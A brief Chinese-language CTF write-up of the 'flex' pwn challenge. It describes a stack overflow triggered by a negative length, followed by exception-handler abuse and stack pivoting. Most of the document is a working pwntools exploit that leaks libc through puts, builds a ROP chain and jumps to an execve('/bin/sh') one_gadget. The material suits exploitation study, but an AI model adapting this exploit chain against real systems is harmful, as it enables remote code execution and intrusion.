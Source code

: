 ## Practise：flex

[challenge link](https://github.com/firmianay/CTF-All-In-One/blob/master/src/writeup/6.1.8_pwn_dctf2017_flex)

在第一个选项中，可以在`charset length`处输入一个负数，从而进行栈溢出。再触发异常，catch代码在上层函数中。catch处理过后，又回到了上层函数的返回处。
可以通过栈迁移，在msg中写入ROP链。再通过想msg写数据，让函数返回到og

```python
from pwn import *
leak = lambda name,addr: log.success('{0} addr ---> {1}'.format(name, hex(addr)))

binary = './flex'
libc = '/lib/x86_64-linux-gnu/libc.so.6'
context.terminal = ['tmux', 'splitw', '-h']
context(binary = binary, log_level='debug')
p = process(binary)
# p = remote('chall.pwnable.tw',10202)
elf = ELF(binary)
libc = ELF(libc)
msg = 0x6061C0
pop_rdi = 0x00000000004044d3
readn = 0x4012D9
leave_ret = 0x0000000000400f1c

p.sendlineafter('option:','1')
p.sendlineafter('(yes/No)','No')
p.sendlineafter('(yes/No)','yes')
p.sendlineafter('length:','-2')

# payload = 'a'
payload = p64(msg)*37+p64(0x40150d)
p.sendline(payload)
gdb.attach(p)
payload = p64(0)+p64(pop_rdi)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(readn)
p.sendlineafter('pattern:',payload)
sleep(0.5)
libcbase = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00')) - libc.sym['puts']
og = libcbase + 0x10a41c
p.sendline(p64(og)*0x6+p64(0x0)*10)
p.interactive()
'''
0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
'''
```




